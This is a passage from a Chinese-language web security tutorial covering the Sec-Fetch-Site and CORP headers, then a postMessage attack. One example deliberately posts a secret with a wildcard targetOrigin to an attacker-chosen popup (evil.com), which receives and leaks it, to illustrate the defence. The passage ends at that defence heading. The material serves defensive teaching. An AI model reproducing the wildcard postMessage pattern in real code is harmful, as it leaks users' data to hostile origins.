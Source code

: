 虽然它非常有效，但该解决方案在适当的实现中会产生很大的开销。

#### Fetch元数据(Sec-Fetch-Site)

此标头表示从何处发送请求，并采用以下值：

- `cross-site`
- `same-origin`
- `same-site`
- `none` - 用户直接访问页面

就像 Sec-Fetch-Dest, 此标头由浏览器自动附加到每个请求，并且是Fetch元数据标准的一部分。示例用法： 

```javascript
app.get('/api/users/:id', authorization, (req, res) => {
    if (req.get('Sec-Fetch-Site') === 'cross-site') {
        return res.sendStatus(403);
    }

    // ... more code

    return res.send({ id: 1234, name: 'John', role: 'admin' });
});
```

#### Cross-Origin-Resource-Policy (CORP)

如果服务器返回带有对应值的此标头，浏览器将不会从我们的站和源下的（甚至静态图像）资源加载给其他人的站点。可能的值：

- `same-site`
- `same-origin`
- `cross-origin`

阅读更多CORP，[here](https://resourcepolicy.fyi/).



## 攻击方式3：利用postMessage通信

有时在受控情况下，我们希望在不同源之间交换信息。我们可以使用postMessage机制。请参见以下示例： 

```javascript
// Origin: http://example.com
const site = new URLSearchParams(window.location.search).get('site'); // https://evil.com
const popup = window.open(site);
popup.postMessage('secret message!', '*');

// Origin: https://evil.com
window.addEventListener('message', e => {
    alert(e.data) // secret message! - leak
});
```

### 防御

#### 指定严格的targetOrigin
